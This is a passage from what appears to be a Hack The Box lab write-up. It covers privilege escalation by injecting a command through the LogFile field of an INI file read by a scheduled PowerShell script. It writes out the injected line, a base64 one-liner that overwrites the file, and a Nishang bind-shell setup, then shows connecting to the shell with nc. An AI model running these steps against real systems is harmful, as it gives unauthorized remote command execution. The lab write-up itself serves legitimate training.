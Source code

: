 
This is how `clean.ini` looks like.


{% include image.html image_alt="6d574f8e.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/6d574f8e.png" %}


Long story short, I deleted `clean.ini` to observe the effect it has on `dellog.ps1`—`LogFile` parameter introduces a command execution vulnerability (after a couple of resets). Check this out:

```
[Main]
LifeTime=100
LogFile=c:\util\scripts\log.txt & <command>
Directory=c:\inetpub\logs\logfiles
```

The ampersand `&` introduces the command execution vulnerability, any command after it gets executed. With this in mind, we can run a bind shell with Nishang's [`Invoke-PowerShellTcp.ps1`](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1).

And guess what? `simple` can modify `clean.ini`!

This is how `clean.ini` will look like.

```
[Main]
LifeTime=100
LogFile=c:\util\scripts\log.txt & powershell -nop -nologo -noninteractive -exec bypass -f "c:\users\public\documents\bs.ps1"
Directory=c:\inetpub\logs\logfiles
```

Five minutes is ample time to `echo` the above line by line into `clean.ini` but a faster way is to encode it as `base64`, and then decode it back to `clean.ini` like so.

```
$a = [System.Convert]::FromBase64String("W01haW5...ZmlsZXMK"); $b = [System.Text.Encoding]::UTF8.GetString($a); echo $b > c:\util\scripts\clean.ini
```

Of course, we also need to upload `bs.ps1`, which is `Invoke-PowerShellTcp.ps1` with the bind shell configuration appended at the end of the file.

```
Invoke-PowerShellTcp -Bind -Port 8888
```

Once that's done, we just have to wait for `hacker` to execute our 'payload'.


{% include image.html image_alt="b05469d5.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/b05469d5.png" %}


Although the firewall only allows inbound connections to three ports, we still have our tunnel going on. As such, we can simply `nc` to the box through the tunnel.


{% include image.html image_alt="b595cb6a.png" image_src="/ac4b4983-03a8-46fd-acb9-d56362db4287/b595cb6a.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/176
[2]: https://www.hackthebox.eu/home/users/profile/1391
[3]: https://www.hackthebox.eu/home/users/profile/12438
[4]: https://www.hackthebox.eu/